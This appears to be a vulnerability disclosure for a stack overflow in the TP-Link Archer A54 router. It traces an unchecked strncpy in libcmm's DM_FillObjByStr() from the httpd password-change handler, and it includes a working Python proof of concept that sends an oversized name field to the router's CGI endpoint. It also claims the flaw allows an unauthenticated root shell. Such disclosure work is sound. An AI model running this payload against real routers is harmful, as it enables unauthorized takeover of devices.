 # TP-Link Archer A54 stack overflow

## Overview

- Address of domestic vulnerability database to be submitted：https://www.cnvd.org.cn/
- Manufacturer's website information：https://www.tp-link.com/us/
- Firmware download address ： https://www.tp-link.com/us/support/download/
- Manufacturer's safety feedback address：https://www.tp-link.com/us/press/security-advisory/

## 1. Affected version

![image-20220209175137659](img/image-20220209175137659.png)

Figure 1 latest firmware on the official website

## 2. Vulnerability details

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()。

![image-20220209175209216](img/image-20220209175209216.png)

Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.

![image-20220209175252858](img/image-20220209175252858.png)

Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.

![image-20220209175316674](img/image-20220209175316674.png)

Figure 4 overflow position and crash position

![image-20220209175338546](img/image-20220209175338546.png)

Figure 5 controllable copy length

![image-20220209175355254](img/image-20220209175355254.png)

Figure 6 local variable overflow size

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:
1. Use the fat simulation firmware archer_ A54v1_ US_ 0.9.1_ 0.2_ up_ boot[210111-rel37983]. bin
2. Attack with the following POC attacks

```
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text

```

The reproduction results are as follows:

![image-20220209175437307](img/image-20220209175437307.png)

Figure 7 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell, and do not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)

![image-20220209175502703](img/image-20220209175502703.png)